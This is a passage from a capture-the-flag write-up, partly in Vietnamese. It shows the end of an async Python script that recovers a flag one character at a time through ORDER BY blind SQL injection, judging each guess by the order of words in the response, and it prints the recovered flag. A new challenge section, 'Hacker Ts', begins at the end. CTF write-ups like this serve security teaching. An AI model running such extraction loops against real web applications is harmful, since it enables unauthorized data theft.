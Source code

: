 ```python
    """
    Handle sending a POST request and analyze the response
    :param s: request session
    :param pos: position to check
    :param char: character to check
    :return: None if response is invalid or boolean check is failed, else return tuple (pos, char)
    """
    res = await post(s, pos, char)

    if res is None:
        return None

    return (pos, char) if res.find(b'Actinium') > res.find(b'Magnesium') else None

def parse_flag(res):
    flag = [x for x in res if x is not None]
    print(flag)
    return ''.join([x[1] for x in flag])

async def main():
    async with aiohttp.ClientSession() as s:
        res = []

        # avoid using 2 for loop in asyncio.gather() due to server's overload
        for pos in range(1, 31):
            res += await asyncio.gather(*[post_proc(s, pos, char) for char in AVAIL_CHAR])
            print(parse_flag(res))

if __name__ == '__main__':
    asyncio.run(main())
    time.sleep(1)
    print('Done')
```

<aside>
🚩 flag{order_by_blind}

</aside>

# **Hacker Ts**

Trang web cho ta in chữ lên áo

![Untitled](writeup_media/Untitled%2019.png)
